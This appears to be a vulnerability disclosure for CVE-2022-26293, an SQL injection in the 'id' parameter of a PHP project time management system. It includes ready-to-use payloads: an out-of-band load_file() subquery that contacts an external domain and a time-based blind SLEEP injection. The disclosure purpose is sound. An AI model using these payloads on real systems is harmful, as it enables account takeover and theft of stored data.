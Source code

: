 ## [CVE-2022-26293](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-26293)

## [Vendor](https://www.sourcecodester.com/php/15136/online-project-time-management-system-phpoop-free-source-code.html)

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/2022/CVE-2022-26293/Docs/Screenshot%202022-03-21%20190546.png)


## Description:
The `id` parameter appears to be vulnerable to SQL injection attacks. The payload '+(select load_file('\\\\u7205zjf5m2cgpr195q5vjxg0760usvgmjaax1lq.sourcecodester.com/php/15136/online-project-time-management-system-phpoop-free-source-code.html\\qgh'))+' was submitted in the id parameter. 
This payload injects a SQL sub-query that calls MySQL's load_file function with a UNC file path that references a URL on an external domain. The application interacted with that domain, indicating that the injected SQL query was executed.
The attacker can take administrator account control and also of all accounts on this system, also the malicious user can download all information about this system.

Status: CRITICAL

[+] Payloads:

```mysql

---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=projects/view_project&id=1'+(select load_file('\\\\u7205zjf5m2cgpr195q5vjxg0760usvgmjaax1lq.sourcecodester.com/php/15136/online-project-time-management-system-phpoop-free-source-code.html\\qgh'))+'' AND (SELECT 9854 FROM (SELECT(SLEEP(5)))YUoR)-- CNQi
---

```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/tree/main/2022/CVE-2022-26293)

## Proof and Exploit:
[href](https://streamable.com/habaj9)
